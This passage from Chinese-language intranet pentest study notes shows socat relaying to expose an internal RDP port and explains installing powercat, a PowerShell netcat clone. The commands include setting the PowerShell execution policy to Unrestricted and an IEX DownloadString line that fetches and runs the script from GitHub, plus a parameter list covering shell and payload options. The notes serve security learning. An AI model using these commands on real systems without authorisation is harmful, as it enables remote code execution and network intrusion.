     # 公网主机  
    socat tcp-listen:4444 tcp-listen:5555

此时访问公网主机的 5555 端口就可以访问到内网主机的 3389 端口了

考虑到 socat 的其他功能平时也很少使用到，这里就不过多介绍了，网上相关文章也有很多，在此就不赘述了。

# 0x08 powercat 的使用

## 1、下载安装 powercat

powercat 可以视为 nc 的 powershell 版本，因此也可以和 nc 进行连接。

powercat 可在 github 进行下载，项目地址为：https://github.com/besimorhino/powercat

下载下来 powercat.ps1 文件后，直接导入即可

    
    
     Import-Module .\powercat.ps1

如果提示未能加载指定模块，则可能是权限问题，可以参照之前写的 【内网学习笔记】2、PowerShell
文章中的方法对其赋予权限，即在管理员模式下运行以下命令

    
    
    Set-ExecutionPolicy Unrestricted

之后就可以导入 powercat 了，导入成功后，输入 powercat -h 可以看到帮助信息。

如果没有权限，也可以直接下载远程文件进行绕过。

    
    
    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

不过由于 github 在国内可能会无法打开，因此可以使用 web 代理站点或者把 powercat.ps1 文件放到自己的服务器上进行下载。

## 2、powercat 的使用

powercat 命令参数

    
    
    -l        监听模式  
    -p        指定监听端口  
    -e        指定启动进程的名称  
    -v        显示详情  
    -c        指定想要连接的 IP 地址  
    -ep        返回 powershell  
    -dns    使用 dns 通信  
    -g        生成 payload  
    -ge        生成经过编码的 payload，可以直接使用 powershell -e 执行该 payload

可以看到和 nc 的命令还是很相似的。

### 正向连接
